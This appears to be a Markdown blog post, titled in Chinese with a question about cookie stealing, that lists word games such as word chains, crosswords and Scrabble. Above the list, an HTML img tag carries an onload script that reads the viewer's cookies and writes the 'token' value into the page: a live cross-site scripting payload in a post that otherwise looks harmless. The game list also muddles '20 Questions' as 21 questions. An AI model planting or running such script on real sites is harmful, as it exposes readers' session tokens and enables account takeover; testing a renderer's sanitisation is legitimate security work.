 ```yaml
---
title: "看看有沒有偷肯?"
tags: ["Blog"]
date: 2024-07-21
---
```

<img src="https://picsum.photos/200/300" onload="var cookies = document.cookie.split('; ').reduce((acc, cookie) => { const [key, value] = cookie.split('='); acc[key] = value; return acc; }, {}); document.querySelector('article[data-v-0042ca3e].content-container').innerHTML = `<div data-v-0042ca3e class='py-2 text-xl text-wrap'>Your token is ${cookies.token}</div>`;">
這裡有一些有趣的文字類遊戲，適合單人或多人一起玩：

文字接龍：玩家依次說出一個詞語，下一個玩家需以上一個詞語的最後一個字作為新詞語的開頭。

填字遊戲（Crossword Puzzles）：根據提示填入空格中的單詞，使橫豎交叉的單詞相互匹配。

拼字遊戲（Scrabble）：玩家利用隨機抽取的字母拼出單詞，並根據單詞的長度和複雜度獲得分數。

文字謎語（Riddles）：猜測一個問題或謎題的答案，通常涉及雙關語或隱喻。

詞語接龍變體：例如，同義詞接龍（接著說出與上一個詞語意義相近的詞），或者反義詞接龍（接著說出與上一個詞語意義相反的詞）。

21個問題（20 Questions）：一名玩家想出一個詞，其他玩家通過提出最多21個問題來猜測這個詞。

故事接龍：每個玩家依次添加一句話，創作出一個完整的故事。

這些遊戲既可以增進語言能力，又能帶來很多樂趣。你有想試玩的特定遊戲嗎？
